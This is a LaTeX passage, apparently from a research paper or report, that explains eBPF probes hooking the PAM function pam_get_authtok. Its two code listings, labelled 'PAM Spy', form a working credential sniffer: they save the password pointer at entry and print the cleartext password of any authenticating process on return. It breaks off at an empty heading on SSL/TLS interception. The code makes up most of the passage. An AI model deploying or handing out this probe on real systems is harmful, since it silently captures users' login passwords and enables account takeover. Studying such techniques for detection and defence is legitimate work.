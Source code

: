 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=cstyle, caption={PAM entry probe}, label={lst:pam_entry}]
int trace_pam_entry(struct pt_regs *ctx) {
    struct key_t key = {};
    char **authtok_ptr_addr;

    key.pid = bpf_get_current_pid_tgid();
    authtok_ptr_addr = (char **)PT_REGS_PARM3(ctx);
    pam_params_map.update(&key, &authtok_ptr_addr);
    return 0;
}
\end{lstlisting}

\textbf{Stage 2 -- Return (\texttt{trace\_pam\_return}):}
When \texttt{pam\_get\_authtok} returns, the output pointer has been populated
by the PAM module. The return probe looks up the saved address, performs two
levels of pointer dereferencing using \texttt{bpf\_probe\_read\_user}, and
reads the cleartext password string.

\begin{lstlisting}[style=cstyle, caption={PAM return probe}, label={lst:pam_return}]
int trace_pam_return(struct pt_regs *ctx) {
    struct key_t key = {};
    char ***authtok_pp;
    char **authtok_p;
    char *authtok_val;
    char captured_str[80] = {};

    key.pid = bpf_get_current_pid_tgid();
    authtok_pp = pam_params_map.lookup(&key);
    if (authtok_pp == 0) return 0;

    authtok_p = *authtok_pp;
    bpf_probe_read_user(&authtok_val, sizeof(authtok_val), authtok_p);
    bpf_probe_read_user_str(captured_str, sizeof(captured_str), authtok_val);
    bpf_trace_printk("PAM Spy: PID %d returned authtok='%s'\n",
                     key.pid, captured_str);
    pam_params_map.delete(&key);
    return 0;
}
\end{lstlisting}

The double indirection is necessary because \texttt{pam\_get\_authtok} takes a
\texttt{const char **authtok}, i.e.\ a pointer to a pointer. At entry, we capture the
address of the pointer (\texttt{char **}). At return, we first read where the
pointer now points (\texttt{char *}), then read the string at that address.

\subsection{SSL/TLS Interception}
\label{subsec:ssl_impl}
\end{document}
